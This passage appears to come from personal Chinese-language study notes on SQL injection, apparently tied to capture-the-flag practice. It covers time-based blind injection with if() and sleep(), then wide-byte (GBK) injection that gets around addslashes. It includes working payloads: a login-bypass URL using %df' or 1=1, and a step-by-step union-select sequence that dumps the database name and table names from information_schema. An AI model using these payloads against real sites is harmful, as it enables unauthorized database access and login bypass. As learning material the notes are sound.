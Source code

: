 ```
if类似三目运算
if(条件,expr2,expr3)，如果条件为true,则返回expr2的值，否则返回3
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439844.png" alt="image-20210726204326926" style="zoom:67%;" />

<span style="background:#bbffff;">sleep可以放在if的第二个参数，也可以是if放在sleep里</span>

```
select * from member where id=1 and sleep (if (database ()='a',1,0));
如果database是a则停1s否则不停
id=2 and  sleep( if(  (SELECT count(SCHEMA_NAME) FROM information_schema.SCHEMATA) = 7,    0,5 ))
好像这个是说如果数据库总数等于7的话0s返回否则5s
```
3. 其他操作如获取库名、表名、爆破子段等等同布尔注入，只是通过sleep函数查看是否成功




### 宽子节注入
- [**精简，CSDN 原理及防御](https://blog.csdn.net/u011721501/article/details/42874517)
- [少，易理解，简书](https://www.jianshu.com/p/7af00dcdd5d1)
- [***个人博客，内容点基础但面面俱到易理解](https://zgao.top/mysql%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E5%88%86%E6%9E%90/)
- [跟前面差不多，都是很基础/常见的讲解，但配有例子，及sqlmap怎么宽子节注入](https://www.cnblogs.com/zhaoyixiang/p/10970117.html)


> 要点：
- 主要是绕过编码漏洞使单引号逃逸，让他闭合掉前面的查询，不被转义
- PHP编码为UTF-8而Mysql的编码设置为`set  names 'gbk'`或是`set character_set_client=gbk`，这样配置会引发编码转换从而导致的注入漏洞(**一个gbk编码汉字，占用2个字节，一个utf-8编码的汉字，占用3个字节**）
- 由于宽字节带来的安全问题主要是吃ASCII字符(一字节)的现象，将后面的一个字节与前一个大于128的ascii码进行组合成为一个完整的字符（mysql判断一个字符是不是汉字，首先两个字符时一个汉字，另外根据gbk编码，**第一个字节ascii码大于128，基本上就可以了**），此时’前的\就被吃了，我们就可以使用’了，
- **只要报错就说明单引号逃逸，起了作用，留了一个单的引号，语法错误**
- **加了单引号不报错，说明单引号被转义或者被addslashes函数过滤掉了**

- 一般常见的宽字符注入
```
%df%27===>(addslashes)====>%df%5c%27====>(GBK)====>運’
用户输入==>过滤函数==>代码层的$sql==>mysql处理请求==>mysql中的sql
http://www.xxx.com/login.php?user=%df’ or 1=1 limit 1,1%23&pass=
其对应的sql就是：
select * fromcms_user where username = ‘運’ or 1=1 limit 1,1#’ and password=”
```


#### 套路
1. 试探是否有注入漏洞url里输入
`admin%df%27`
2. 爆列数`?id=1%df%27 order by 2# ` 
    列数得知 2列。
3. 爆库：
    `?id=-1%df%27 union select 1,database()%23`
    数据库:sae-chinalover
4. 爆列表:
```
?id=-1%df%27 union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x7361652d6368696e616c6f766572%23
```
  爆出这些表:
ctf,ctf2,ctf3,ctf4,gbksqli,news
